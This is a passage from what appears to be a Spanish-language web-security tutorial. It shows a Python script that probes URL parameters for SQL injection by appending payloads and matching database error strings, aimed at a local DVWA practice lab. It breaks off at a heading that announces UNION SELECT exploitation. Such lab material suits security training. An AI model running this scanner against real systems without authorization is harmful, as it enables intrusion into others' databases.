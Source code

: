 ```python
    "SQLSTATE"
]

def scan_sql_injection(url):
    print(Fore.YELLOW + f"🔍 Analizando URL: {url}" + Style.RESET_ALL)
    vulnerable = False

    parsed = urllib.parse.urlparse(url)
    params = urllib.parse.parse_qs(parsed.query)

    for param in params:
        for payload in payloads:
            test_params = params.copy()
            test_params[param] = [params[param][0] + payload]
            new_query = urllib.parse.urlencode(test_params, doseq=True)
            test_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{new_query}"

            try:
                res = requests.get(test_url, timeout=5)
                for error in sql_errors:
                    if error.lower() in res.text.lower():
                        print(Fore.RED + f"🚨 Vulnerable con payload: {payload}" + Style.RESET_ALL)
                        print(f"➡️ {test_url}")
                        vulnerable = True
                        break
            except requests.exceptions.RequestException as e:
                print(Fore.RED + f"❌ Error al probar: {test_url}\n{e}" + Style.RESET_ALL)

    if not vulnerable:
        print(Fore.GREEN + "✅ No se detectó inyección SQL con los payloads usados." + Style.RESET_ALL)

# 👉 Inserta aquí la URL vulnerable
if __name__ == "__main__":
    url = "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit"
    scan_sql_injection(url)
```

---

### 🏁 ¿Cómo ejecutar?

```bash
python sql_injector.py
```

🔎 Verás si alguno de los payloads provoca un error de SQL, lo cual **confirma una vulnerabilidad**.

---

### 💣 Fase 2: Explotación de la vulnerabilidad (con `UNION SELECT`)
